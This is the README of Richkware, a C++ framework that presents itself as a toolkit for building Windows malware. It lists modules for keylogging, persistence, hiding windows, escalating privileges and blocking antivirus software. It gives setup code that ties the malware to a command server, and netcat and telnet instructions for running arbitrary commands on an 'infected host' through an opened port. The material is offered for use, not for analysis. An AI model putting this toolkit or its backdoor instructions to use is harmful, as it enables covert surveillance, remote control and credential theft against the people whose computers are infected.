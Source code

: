 # Richkware

[![Build status](https://ci.appveyor.com/api/projects/status/1tn6vedeaq0v27ra?svg=true)](https://ci.appveyor.com/project/richkmeli/richkware)

Framework for building Windows malware, written in C++.

## Description

Richkware is a library of network and OS functions, that you can use to create malware.
The composition of these functions permits the application to assume behaviors referable to the following types of malware:

- Virus
- Worms
- Bot
- Spyware
- Keylogger
- Scareware

## Related Projects

[Richkware-Manager-Server](https://github.com/richkmeli/Richkware-Manager-Server): Service for the management of hosts in which is present an instance of malware developed using **Richkware** framework.

[Richkware-Manager-Client](https://github.com/richkmeli/Richkware-Manager-Client): Client of **Richkware-Manager-Server**, that it obtains the list of all hosts from the server and it's able to send any kind of commands to them.

![](http://richk.altervista.org/RichkwareDiagram.svg)

## Documentation

|              | EN                          | IT                     |
|--------------|:------------------------------:|:------------------:|
| Presentation | [PDF](http://richk.me/Richkware/doc/EN/Slide.pdf)  | [PDF](http://richk.me/Richkware/doc/IT/Slide.pdf)     |
| Report       | [PDF](http://richk.me/Richkware/doc/EN/Report.pdf) | [PDF](http://richk.me/Richkware/doc/IT/Relazione.pdf) |

## Functions

### Network

- **Server** (*network.h*): module for the management of a multi-thread server, that allow to receive commands from Internet([Richkware-Manager-Client](https://github.com/richkmeli/Richkware-Manager-Client) or console) according to the specific protocol.
    - **Protocol** (*protocol.h*):
        1. **Remotely command execution** (ID 1)
        2. (work in progress)
- **Network** (*network.h*):
    - **RawRequest**: send a request to a server;
    - **UploadInfoToRichkwareManagerServer**: send information to [Richkware-Manager-Server](https://github.com/richkmeli/Richkware-Manager-Server)

### System

- **Storage** (*storage.h*):
    - **SaveSession** and **LoadSession**: save the application state(encrypted) to:
        - **Register** (SaveValueReg and LoadValueReg)
        - **File** (SaveValueToFile and LoadValueFromFile)
    - **Persistence**: install itself permanently in the system.
- **IsAdmin** and **RequestAdminPrivileges** (*richkware.h*): check and require administrator privileges;

- **StealthWindow** (*richkware.h*): hide applications;
- **OpenApp** (*richkware.h*): open arbitrary applications;
- **Keylogger** (*richkware.h*): stores in a file all pressed keys;
 - **BlockApps** e **UnBlockApps** (*blockApps.h*): block and unblock applications (antivirus, ...).

### Cryptography

- **Encrypt and Decrypt** (*crypto.h*): [RC4](https://en.wikipedia.org/wiki/RC4) (default), [Blowfish](https://en.wikipedia.org/wiki/Blowfish_(cipher)).
- **Encode and Decode** (*crypto.h*): [Base64](https://en.wikipedia.org/wiki/Base64) (defualt), [Hex](https://en.wikipedia.org/wiki/Hexadecimal#Transfer_encoding).

![](http://richk.altervista.org/RichkwareCryptographyDiagram.svg)

### Other

- **RandMouse** (*richkware.h*): move randomly the mouse cursor;
- **Hibernation** (*richkware.h*): hibernate system.

## Requirements
These are the base requirements to build and use Richkware:

- Make or CMake
- [MinGW](http://www.mingw.org/)

## Get Started
Open main.cpp, and create an instance of Richkware.
### With [Richkware-Manager-Server](https://github.com/richkmeli/Richkware-Manager-Server)
If you have deployed [RMS](https://github.com/richkmeli/Richkware-Manager-Server), you can initialize the malware as follows:

        int main() {
               Richkware richkware("Richk","DefaultPassword","192.168.99.100", "8080", "associatedUser");
                ...
                return 0;
            }
        
that it gets a secure key from Richkware-Manager-Server and it sets the key as encryption key.
**DefaultPass** is used as temporary encryption key to ensure a secure communication with RMS and if the malware cannot reach the RMS for getting its encryption ket, it will use DefaultPass as encryption key.


### Without [Richkware-Manager-Server](https://github.com/richkmeli/Richkware-Manager-Server)

Otherwise, if you haven't deployed [RMS](https://github.com/richkmeli/Richkware-Manager-Server), you can use: 
         
     Richkware richkware("Richk","richktest");
         
 in this way, it uses "richktest" as encryption key.
     


## Compile

After **main.cpp** implementation, you can compile as follows.

### Using MinGW for Windows or MinGW cross compiler for Linux build environment

	make

### Using Microsoft C++ compiler (Visual Studio)
- C/C++ > Preprocessor > Preprocessor Definitions, add "\_CRT\_SECURE\_NO\_WARNINGS" 
- Linker > Input > Additional Dependencies, add "Ws2_32.lib"

## Examples of usage
In the following example, we call "**server**", a malware developed using Richkware framework and in which it has been enabled the function for creating a server, and "**client**", the creator(Hacker) of the malware that is trying to establish a connection with the infected PC.

### Server-side

#### Remotely Command Execution

Call framework function **StartServer** in the main, it starts server on a port, in the following example is the TCP port 8000. Remember that if a port is already used by another program, you can't use that port, until the program will be stopped.

	int main () {
	    ...
		richkware.network.server.Start("8000");
        ...
	}

### Client-side

#### Connect using [Richkware-Manager-Client](https://github.com/richkmeli/Richkware-Manager-Client)
In all systems where the Java Virtual Machine is installed, you can use [Richkware-Manager-Client](https://github.com/richkmeli/Richkware-Manager-Client), otherwise if it's not present you can easily use a terminal.

#### Connect using terminal in Unix systems

In Unix systems, you can use **netcat**, and run the following command:

	nc <serverName> 8000
	
if the server received the request on the open port and it succeeds to create a connection, it responses to the client confirming the establishment of the connection, after that, you can write:
    
    [[1]]COMMAND
    
where *COMMAND* is a command that has to be executed on the infected host where server is running.

#### Connect using terminal in Windows

In Windows, you can use **telnet**, in the same way:

	telnet <serverName> 8000

...
    
    [[1]]COMMAND
    
